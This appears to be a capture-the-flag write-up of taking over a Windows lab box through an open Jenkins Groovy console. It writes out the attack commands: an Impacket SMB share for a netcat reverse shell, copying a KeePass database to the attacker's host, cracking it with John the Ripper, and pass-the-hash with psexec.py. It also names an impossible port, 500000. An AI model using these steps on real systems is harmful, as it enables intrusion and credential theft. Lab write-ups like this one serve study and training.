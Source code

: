 ![[Pasted image 20250422014359.png]]
[[nmap]] reports [[port 80]] and checking it looks like a [[rabbit hole]] on port 80, if you [[fuzzing]] port 500000 we found path `/askjeeves` with a [[Jenkins]] running.

inside of `jenkins` we can find a console to execute [[Groovy]] scripts.
we can try use [[Impacket]] with his script [[smbserver.py]] to share a [[nc.exe]] and after force the target machine connect to us.

Start [[smb]] shared folder.
```bash
sudo smbserver.py smbFolder $(pwd) -smb2support
```

start listen on a port 9001 on our host machine.

And start the connection in Jenkins groovy console.
![[Pasted image 20250422015619.png]]
at execute the command we see the connection
![[Pasted image 20250422015643.png]]
if we check the directories of user `kohsuke` we found interesting file
![[Pasted image 20250422020957.png]]
`CEH.kdbx` where `.kdbx` is a extension of [[KeePass]]. Then lets take us to our machine that file, approach the `smb` shared folder are active.

```powershell
copy CEH.kdbx \\10.10.16.2\\smbFolder\CEH.kdbx
```

one with the file on our host machine we can use [[keepassxc]] to try open the file but need a password, so
let's use [[keepass2john]] to get a hash of the password we need. With that hash we can use [[JohnTheRipper]] to try break that.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
![[Pasted image 20250422022315.png]]

and we got the password `moonshine1`.

once inside we have this:
![[Pasted image 20250422022800.png]]
if copy `Backup stuff` password we have a [[NTML]] pass, `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
`
we can check if that password is of Administrator user. 
using [[netexec]] we can check that.

```bash
netexec smb 10.10.10.63 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'
```
![[Pasted image 20250422023539.png]]
and say pwn3d!, so its valid credential, we can try do [[Pass the hash]] with [[psexec.py]]

```bash
psexec.py WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
```
![[Pasted image 20250422024830.png]]